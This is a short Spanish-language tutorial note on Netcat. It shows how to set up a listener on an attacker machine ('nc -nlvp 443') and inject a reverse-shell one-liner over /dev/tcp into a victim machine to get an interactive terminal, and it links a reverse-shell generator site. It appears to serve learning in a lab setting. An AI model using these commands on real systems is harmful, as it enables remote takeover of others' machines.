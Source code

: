 ¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re  
  

> [!important] https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

  

![[./imagenes/image.png]]

  

  
Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

  
  
`nc -nlvp 443`  
  

> [!important] `nc`: Invoca **la herramienta** Netcat.<br><br><br>`-n`: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.<br><br><br>`-``l`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.<br><br><br>`-v`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.<br><br><br>`-``p 443`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).<br><br>

  

![[./imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png]]

  

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator.  
  
  
`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

  

![[./imagenes/image 1.png]]

  

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

  

![[./imagenes/image 2.png]]

![[./imagenes/image 3.png]]